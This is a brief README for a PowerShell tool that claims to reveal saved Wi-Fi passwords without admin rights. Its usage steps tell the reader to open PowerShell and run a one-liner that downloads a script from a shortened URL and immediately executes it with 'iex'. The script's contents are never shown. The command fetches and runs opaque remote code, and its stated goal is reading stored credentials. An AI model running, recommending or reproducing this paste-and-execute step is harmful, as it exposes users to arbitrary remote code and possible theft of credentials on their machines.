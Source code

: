 # Get-Wifi-Password
Get Wi-Fi password via powershell, without admin rights

# How use it?
- Press Win + R and type powershell or just open it
- Type irm https://ba.sh/5CQZ | iex
- Profit!


## License

[MIT](https://choosealicense.com/licenses/mit/)

